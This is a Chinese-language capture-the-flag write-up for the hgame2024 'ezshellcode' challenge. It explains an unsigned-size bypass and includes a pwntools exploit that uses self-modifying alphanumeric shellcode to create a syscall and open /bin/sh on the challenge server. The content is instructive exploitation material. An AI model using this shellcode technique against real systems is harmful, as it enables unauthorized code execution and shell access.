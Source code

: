 ```yaml
---
title: hgame2024 week1 - ezshellcode
date: 2024/2/5 19:13:00
updated: 2024/7/25 12:34:56
tags:
    - shellcode
thumbnail: /assets/hgame2024/registers.png
excerpt: 通过输入-1绕过大小限制，利用异或和寄存器控制实现shellcode注入并打开shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

看似被size限制了大小，实际上在read的时候size是uint64_t，因此输入-1可以绕过size的问题；
但是题目还限制了输入的字符，考虑用异或和pop、push来控制寄存器和syscall(0x0f05)

先观察一下寄存器：
![regs](/assets/hgame2024/registers.png)

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./shellcode')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *$rebase(0x1456)')
    else:
        sh = remote('47.100.139.115', 31258)

    sh.recvuntil(b':')
    sh.sendline(b'-1') # size is ulong
    sh.recvuntil(b':')

    # payload 1, make read syscall to input unlimited shellcode
    code = '''
    xor byte ptr [rax + 0x36], bl
    xor bl, byte ptr [rax + 0x36]
    xor bl, byte ptr [rax + 0x33]
    xor byte ptr [rax + 0x31], bl
    xor byte ptr [rax + 0x32], bl
    push rdi
    pop rax
    push rsi
    pop rdx
    '''
    shc = asm(code)
    shc += b'PX'*15 + b'KAD'
    sh.send(shc)

    # payload 2, open shell
    code = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    '''
    shc = asm(code)
    shc = b'0'*0x33 + shc # align with the next byte to be executed
    sh.send(shc)

    sh.interactive()
```

## shellcode详解

接下来是对第一段shellcode的解释

```as
xor byte ptr [rax + 0x36], bl ; 0X6
xor bl, byte ptr [rax + 0x36] ; 2X6 zero out bl
xor bl, byte ptr [rax + 0x33] ; 2X3 clone intermediate value
xor byte ptr [rax + 0x31], bl ; 0X1 make 0x0f
xor byte ptr [rax + 0x32], bl ; 0X2 make 0x05
push rdi ; W
pop rax  ; X zero out rax
push rsi ; V
pop rdx  ; Z sufficient bytes to read

push rax ; P
pop rax  ; X *15 fill up shellcode until the size reached 0x30

syscall  ; KA; will be xored to 0x0f05
?        ; D ; the intermediate value to make syscall

?        ; a byte at +0x36, will be used to store bl
```
